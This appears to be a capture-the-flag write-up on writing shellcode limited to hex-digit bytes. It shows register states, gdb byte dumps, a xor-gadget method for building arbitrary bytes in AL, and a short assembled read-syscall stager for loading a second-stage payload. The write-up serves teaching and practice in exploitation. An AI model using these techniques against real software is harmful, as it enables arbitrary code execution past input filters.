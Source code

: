 Additionally, when our shellcode begins execution, the following are the initial contents of the registers we have access to. This was run with aslr off, actual addresses may be more scrambled but they should point towards the same objects.
```
rax = 0x133713370000 -> start of shellcode
rbx = 0x555555555450 -> pointer to the function  __libc_csu_init
rcx = 0x555555558060 -> pointer to the hex string "0123456789ABCDEF", comes directly before the .bss segment.
rdx = 0x1337133700c6 -> end of shellcode
rsi = 0x133713370000 -> start of shellcode again
rdi = 0x7fffffffdd30 -> unimportant/frequently changing stack address
rbp = 0x7fffffffdde0 -> unimportant/frequently changing stack address
rsp = 0x7fffffffddc8 -> unimportant/frequently changing stack address
```

Since we have several shellcode "gadgets" that access registers plus a constant offset (that can be represented as 0x30-0x39 or 0x41-0x46), it may be useful to rely on bytes pointed at by these initial register values. We will primarily be using the registers rax, rbx, and rdx. We use rdx as a pointer to a location to write our new shellcode, we use rax (and most frequently, just its last 8 bits al) because we are able to easily alter its value with xor commands. Finally, we use rbx because it points towards a section of code, and this means we will have highly varied and "random" bytes that will remain the same between runs that should be able to be xored together to form any byte.

This gives me the following plan.
-Use a combinaton of different imm8 values with `xor al, imm8` and `xor al, BYTE PTR [rbx+imm8]` to xor al into containing any byte value I want.
-We then store the al value using `xor BYTE PTR [rdx+imm8],al`
-We will need to alter rdx at some point to "move it along" to write more shellcode, we can use `xor dh,BYTE PTR [rax]` for that.

## Building arbitrary al values

We have a total of 32 different bytes we can xor with AL. This is done with all 16 possible imm8 values we have available with `; xor al, imm8` and `xor al, BYTE PTR [rbx+imm8]`. While the former has obvious values, those being 0x30-0x39 + 0x41-0x46, the values are less clear for those referenced around rcx. I dump those values with gdb and assume they remain constant, which is true thanks to them being in an executable segment without any major relocations.

```
x/10bx 10bx $rbx+0x30
0x55897bb67480 <__libc_csu_init+48>:	0x03	0x74	0x1b	0x31	0xdb	0x0f	0x1f	0x00
0x55897bb67488 <__libc_csu_init+56>:	0x4c	0x89
x/6bx $rbx+0x41
0x55897bb67491 <__libc_csu_init+65>:	0x41	0xff	0x14	0xdf	0x48	0x83
```

I then try all combinations of xoring these bytes together, and then choose the combination that xors AL by a given constant value in the shortest number of bytes.

## What do we write?

It takes us on average about 8 bytes to write a single arbitrary byte elsewhere in the binary. This means we need to have a shellcode no longer than around 20 bytes. Our best option for this size constraint is a read shellcode loader. The following is a simple loader that does the job.
```
48 31 ff                xor    rdi,rdi
48 89 d6                mov    rsi,rdx
48 c7 c2 00 10 00 00    mov    rdx,0x1000
48 31 c0                xor    rax,rax
0f 05                   syscall 
```
